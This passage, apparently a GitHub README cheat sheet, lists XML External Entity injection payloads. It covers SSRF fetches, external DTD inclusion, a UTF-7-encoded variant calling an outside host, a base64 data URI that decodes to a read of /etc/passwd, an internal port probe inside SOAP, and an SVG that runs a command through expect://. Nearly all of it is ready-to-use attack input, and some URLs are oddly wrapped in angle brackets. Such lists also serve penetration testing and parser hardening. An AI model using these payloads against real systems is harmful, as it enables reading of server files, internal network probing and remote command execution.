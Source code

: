     ```

    #### XXE:SSRF ( Server Side Request Forgery ) Example

    ```
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ELEMENT foo (#ANY)>
    <!ENTITY xxe SYSTEM "<https://www.example.com/text.txt>">]><foo>&xxe;</foo>

    ```

    #### XXE: (Remote Attack - Through External Xml Inclusion) Exmaple

    ```
    <?xml version="1.0"?>
    <!DOCTYPE lolz [
    <!ENTITY test SYSTEM "<https://example.com/entity1.xml>">]>
    <lolz><lol>3..2..1...&test<lol></lolz>

    ```

    #### XXE: UTF-7 Exmaple

    ```
    <?xml version="1.0" encoding="UTF-7"?>
    +ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
    +ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
    +ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4

    ```

    #### XXE: Base64 Encoded

    ```
    <!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>

    ```

    #### XXE: XXE inside SOAP Example

    ```
    <soap:Body>
      <foo>
        <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "<http://x.x.x.x:22/>"> %dtd;]><xxx/>]]>
      </foo>
    </soap:Body>

    ```

    #### XXE: XXE inside SVG

    ```
    <svg xmlns="<http://www.w3.org/2000/svg>" xmlns:xlink="<http://www.w3.org/1999/xlink>" width="300" version="1.1" height="200">
        <image xlink:href="expect://ls"></image>
    </svg>
